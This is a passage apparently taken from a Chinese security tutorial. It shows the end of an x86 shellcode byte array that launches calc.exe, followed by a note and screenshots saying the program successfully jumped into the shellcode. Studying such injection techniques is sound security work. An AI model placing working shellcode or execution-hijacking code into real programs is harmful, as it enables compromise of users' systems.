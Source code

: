 ```plain
    0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24,
    0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF,
    0xE0, 0x5F, 0x5F, 0x5A, 0x8B, 0x12, 0xEB, 0x8D,
    0x5D, 0x6A, 0x01, 0x8D, 0x85, 0xB2, 0x00, 0x00,
    0x00, 0x50, 0x68, 0x31, 0x8B, 0x6F, 0x87, 0xFF,
    0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x68, 0xA6,
    0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x3C, 0x06, 0x7C,
    0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x53, 0xFF, 0xD5,
    0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65,
    0x00, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xE5, 0x23 
};
```

然后我们再来启动程序，可以看到成功跳转到 ShellCode 进行执行：

[![](assets/1710899227-00fb373514dc2170865d768e54ed72b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173039-095044ac-d61c-1.png)

[![](assets/1710899227-269b69c95dcf85a3341d50d2a76e811e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228173105-18ab3088-d61c-1.png)
